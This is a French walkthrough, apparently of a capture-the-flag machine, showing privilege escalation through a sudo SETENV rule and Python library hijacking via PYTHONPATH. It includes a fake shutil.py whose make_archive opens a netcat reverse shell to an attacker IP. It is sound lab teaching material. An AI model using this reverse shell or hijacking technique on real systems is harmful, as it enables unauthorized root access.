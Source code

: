 ## Password reuse

Est-ce que Waldo aurait également utiliser ce mot de passe pour l'accès ssh ?

![image-20200608204935403](/assets/img/image-20200608204935403.png)

## sudo -l

Waldo peut exécuter ce script `(ALL) SETENV: /opt/scripts/admin_tasks.sh`en tant que root.

![image-20200608205335058](/assets/img/image-20200608205335058.png)

Ce script permet de lancer un autre script python, situé dans le même dossier, et donc en tant que root.

![image-20200608205836917](/assets/img/image-20200608205836917.png)

Il faudrait un moyen de passer un paramètre au script backup.py pour modifier son comportement.

![image-20200608205934302](/assets/img/image-20200608205934302.png)

## shutil

Constatez qu'on utilise ici une fonction `make_archive` de la librairie `shutil`. Notons que 3 paramètres sont utilisés pour appeler cette fonction. On devrait pouvoir hijacké cette librairie. https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

Créons d'abord notre propre `shutil.py`. Il doit être situé dans le dossier /tmp (enfin là où on peut écrire).

Préparons un reverse shell python dans /tmp/shutil.py.

```
import os 

# 3 paramètres nécessaires comme la fonction réelle
def make_archive(a, b, c):
	os.system('nc 10.10.14.27 443 -e "/bin/sh"')
```

On peut changer la manière dont python recherche `shutil.py` en modifiant la variable `PYTHONPATH`.  On exécute le script et on choisit d'exécuter la fonction vulnérable.

![image-20200608211428108](/assets/img/image-20200608211428108.png)

Et notre netcat reçoit la connexion en retour. Nous sommes root.

![image-20200608211500892](/assets/img/image-20200608211500892.png)



